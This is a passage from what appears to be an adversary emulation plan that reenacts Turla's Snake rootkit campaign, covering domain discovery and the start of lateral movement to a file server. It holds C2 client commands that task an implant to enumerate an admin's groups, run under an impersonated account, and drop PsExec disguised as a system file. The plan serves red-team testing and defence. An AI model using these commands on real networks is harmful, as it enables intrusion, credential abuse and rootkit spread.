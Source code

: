 * This should return output similar to the following:
  * > ```
    > powershell.exe                2868 RDP-Tcp#6                  5     79,140 K Unknown         NK\egleadmin                                            0:00:00 N/A
    > conhost.exe                   7368 RDP-Tcp#6                  5     18,088 K Unknown         NK\egleadmin                                            0:00:00 N/A
    > ```

* Wait 1 minute then execute the next discovery command to enumerate `EgleAdmin`'s groups:
```bash
# Enumerate details on EgleAdmin to find group membership
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "user /domain EgleAdmin"}'
```
:heavy_exclamation_mark: Verify that `File Server Admins` is listed as one of the groups that `EgleAdmin` is a member of.

* Wait 1 minute then execute the next discovery command to the drive mapped to the file server:
```bash
# Discover that the local machine has a drive mapped to the file server
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "use", "runas": "nk\\Egle"}'
```
:heavy_exclamation_mark: Verify that the home drive is mapped to the file server host `berzas` (`10.100.30.204`).

### :moyai: Source Code

* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)

### :microscope: Cited Intelligence
* <https://artemonsecurity.com/snake_whitepaper.pdf>

## Step 14 - Lateral Movement to File Server

:microphone: `Voice Track:`

Step 14 emulates Turla using the discovered admin account to laterally move to the file server and install the Snake rootkit on it.

Using the information discovered in the previous step, Snake impersonates the EgleAdmin account to run PsExec and execute another copy of the Snake rootkit installer on the file server. This new copy of the Snake installer will have the installed rootkit beacon back to the C2 server via a different redirector.

---

### :biohazard: Procedures

* Tasking the implant to download PsExec.
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 4, "file": "PsExec.exe", "dest":"C:\\Windows\\System32\\file_svc_mgr.exe"}'
```

